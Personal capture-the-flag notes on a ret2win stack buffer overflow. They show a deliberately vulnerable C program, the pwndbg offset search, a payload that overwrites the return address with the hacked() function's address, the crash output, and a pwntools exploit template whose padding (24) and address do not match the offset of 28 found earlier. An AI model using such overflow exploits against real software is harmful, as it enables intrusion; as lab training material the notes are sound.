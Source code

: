 #ctf #pwn 

``` source 
#include <stdio.h>

void hacked()
{
    printf("This function is TOP SECRET! How did you get in here?! :O\n");
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);
}

int main()
{
    register_name();

    return 0;
}
```

- We will override the return address of register_name(), to the hacked function.
- We can do the because there is nothing stopping us from going beyond 16 byte in the buffer. 
- We find the address of hacker()
``` info_functions

0x08049000  _init
0x08049030  printf@plt
0x08049040  puts@plt
0x08049050  __libc_start_main@plt
0x08049060  __isoc99_scanf@plt
0x08049070  _start
0x080490b0  _dl_relocate_static_pie
0x080490c0  __x86.get_pc_thunk.bx
0x080490d0  deregister_tm_clones
0x08049110  register_tm_clones
0x08049150  __do_global_dtors_aux
0x08049180  frame_dummy
0x08049182  hacked
0x080491ad  register_name
0x08049203  main
0x0804921f  __x86.get_pc_thunk.ax
0x08049230  __libc_csu_init
0x08049290  __libc_csu_fini
0x08049291  __x86.get_pc_thunk.bp
0x08049298  _fini
```

- Since the program is compiled without pie, its the same address each time. 
- hacker memory address: `0x08049182`
- We now need to find how many bytes we should overwrite in the buffer.
```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

This we will feed as input when the program promps us:
```


![[Pasted image 20250124231936.png]]

- Observe the EIP (instruction pointer), the characters that made it there is 'haaa', so we should find this in the payload and change them to the address of hacker. 

finding its offsett:
```
pwndbg> cyclic -l haaa
Finding cyclic pattern of 4 bytes: b'haaa' (hex: 0x68616161)
Found at offset 28
```

So we make a payload with 28 wildcard characters + hacked() function: 
```
payload = 'A'*28 + '\x82\x91\x04\x08'

file = open("payload",'w')
file.write(payload)
print(payload)
```
- NOTICE: Format of the address. 


```
┌──(kali㉿windowsaids)-[~/CTF/Cryptocat/pwn/binary_exploitation_101/03-return_to_win]
└─$ ./ret2win < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA��
This function is TOP SECRET! How did you get in here?! :O
Segmentation fault (core dumped)
```

- Observe that the program craches afterwards, if we dont want this we have to make the hackerd functions return to another place. 
- return of register_name: `0x08049202`

We also have use pwn tools - here is a basic script:
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './ret2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 24

payload = flat(
    b'A' * 24,
    elf.functions.hacked  # 0x401142
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```